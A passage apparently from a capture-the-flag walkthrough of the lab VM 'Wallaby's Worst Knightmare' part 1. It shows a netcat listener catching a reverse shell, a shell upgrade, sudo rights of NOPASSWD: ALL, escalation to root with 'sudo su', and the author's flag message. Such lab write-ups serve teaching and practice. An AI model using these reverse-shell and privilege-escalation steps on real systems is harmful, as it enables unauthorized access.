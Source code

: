 ```console
root@parrot:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.142.1] from (UNKNOWN) [192.168.142.128] 51050
bash: cannot set terminal process group (622): Inappropriate ioctl for device
bash: no job control in this shell
wallaby@ubuntu:~$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
wallaby@ubuntu:~$
```

By listing sudo permissions, **wallabys** can execute system commands without password.

```console
wallaby@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for wallaby on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wallaby may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
```

Run **sudo su** and you get root.

```console
wallaby@ubuntu:~$ sudo su
sudo su
root@ubuntu:/home/wallaby# 
```

```console
root@ubuntu:/home/wallaby# cd
cd
root@ubuntu:~# cat fla* 
cat fla*
###CONGRATULATIONS###

You beat part 1 of 2 in the "Wallaby's Worst Knightmare" series of vms!!!!

This was my first vulnerable machine/CTF ever!  I hope you guys enjoyed playing it as much as I enjoyed making it!

Come to IRC and contact me if you find any errors or interesting ways to root, I'd love to hear about it.

Thanks guys!
-Waldo
```
